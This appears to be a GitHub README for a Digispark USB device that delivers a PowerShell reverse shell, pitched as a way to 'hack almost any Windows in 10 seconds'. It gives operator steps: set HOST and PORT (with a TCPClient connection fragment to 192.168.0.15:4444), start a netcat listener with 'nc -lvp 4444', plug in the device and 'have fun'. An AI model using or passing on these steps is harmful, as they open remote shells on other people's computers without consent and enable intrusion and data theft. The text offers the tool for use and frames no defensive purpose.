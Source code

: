 # Arduino-Digispark-PS-reverse-shell
> Hack almost any Windows in 10 seconds with Digispark reverse connection payload.

## Usage
- First you must change HOST and PORT in PS-reverse-shell.ino and finally load the program in Digispark;
E.g: `...Net.Sockets.TCPClient('192.168.0.15',4444)...`

- Start handler to get reverse connection;<br>
E.g: `nc -lvp 4444`

- Plug Digispark on computer;

- Have fun :)


## Project Status
Project is: _in progress_.
